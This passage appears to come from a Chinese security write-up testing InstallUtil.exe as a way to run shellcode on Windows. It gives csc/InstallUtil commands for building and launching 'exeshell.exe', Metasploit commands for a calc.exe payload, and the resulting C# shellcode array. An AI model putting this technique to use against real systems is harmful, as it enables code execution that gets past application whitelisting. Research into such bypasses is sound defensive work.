 ```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:exeshell.exe Shellcode.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

0x04 实际测试
=====

**注**：根据不同操作系统版本，需要对上述利用代码作相应修改

1、xp x86
--------

默认不包含.net环境，暂不测试，但可为最终结论提供参考

2、win7 x86
----------

默认.net环境

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f917bfc79c846d363ac1ee6493f33ff3930696a3.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 3.5无法成功编译PELoader.cs

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/8a94753227306e8486ef268fa4b7842eb70f2d7a.jpg)

**（2）**利用InstallUtil.exe直接执行shellcode

通过msf生成32位shellcode

```
use windows/exec
set CMD calc.exe
set EXITFUNC thread
generate -t csharp

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/a9a9956e5d4799e113d6cecc660b76c1c80baf6c.jpg)

```
byte[] buf = new byte[195] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x20,0x63,0x00 };

```
